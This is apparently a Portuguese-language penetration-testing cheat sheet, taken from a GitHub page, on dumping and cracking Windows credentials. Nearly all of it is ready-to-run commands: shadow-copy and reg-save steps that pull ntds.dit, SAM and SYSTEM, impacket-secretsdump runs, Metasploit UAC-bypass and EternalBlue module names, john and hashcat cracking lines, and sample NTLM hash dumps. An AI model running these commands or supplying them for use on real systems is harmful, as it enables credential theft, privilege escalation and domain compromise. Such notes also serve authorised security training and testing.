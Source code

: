 **Obtaining AD users’ hashes or local hashes:**
```
vssadmin create shadow /for=C:
copy <shadow-volume>\Windows\NTDS\ntds.dit <ntds>
copy <shadow-volume>\Windows\system32\config\system <system>
copy <shadow-volume>\Windows\system32\config\sam <sam>

impacket-secretsdump -ntds <ntds> -system <system> LOCAL
impacket-secretsdump <user>:<pass>@<host>
```

**Capturing hashes by registry:**
```
reg save hklm\sam C:\sam_copy
reg save hklm\system C:\system_copy
impacket-secretsdump -sam <sam> -system <system> LOCAL
```
- `LOCAL` indica que você **não está se conectando a um host remoto**, mas sim extraindo os hashes **localmente**, a partir dos arquivos `SAM` e `SYSTEM` que você possui

**versões de hash no windows (mais antigos pro mais recentes)**
- LM (geralmente termina com `EE`, se  começar com `AA` e terminar com `EE` está em desuso)
- NTLM = NTLM V1
- NTLM V2


**Path for hashes:**
```
C:\Windows\system32\config\SAM                        usuarios windows 7,8,10,11
C:\Windows\system32\NTDS\ntds.dit                    usuarios do windows server
C:\Windows\system32\config\SYSTEM                 usuarios windows 7,8,10,11
```

Bypass User Account Control (UAC):
```
exploit/windows/local/bypassuac_fodhelper
exploit/windows/local/ask (exige interação com usuário)
```

windows antigo , testar eternalblue:
```
exploit/windows/smb/ms17_010_psexec
exploit/windows/smb/ms17_010_eternalblue
```

## Cracking hashes (hashdump)
john
```
john --format=lm --wordlist=<wordlist> <hashfile>
john --format=nt --wordlist=<wordlist> <hashfile>
```

**hashcat NT/NTLM**

Para quebrar usando hashcat é preciso formatar as hashes do hashdump para o formato adequado

```
# hashes não formatadas
ADM01:1009:aad3b435b51404eeaad3b435b51404ee:25c22286c527ef085b2541e97c740587:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b1f233b4583731263d8c54659889dc0a:::
CPD01:1006:aad3b435b51404eeaad3b435b51404ee:9b6f9e9dd57c57c4f6ff2a5e8c819cdc:::
DEV01:1007:aad3b435b51404eeaad3b435b51404ee:5288d36e2a539296875b393aa763bfcc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
USER01:1008:aad3b435b51404eeaad3b435b51404ee:9e40973e2cb458449cb1ce3f4a2a2d6b:::


# comando para formatar as hashes rapidamente
cat hash_desformatadas | cut -d ':' -f3


```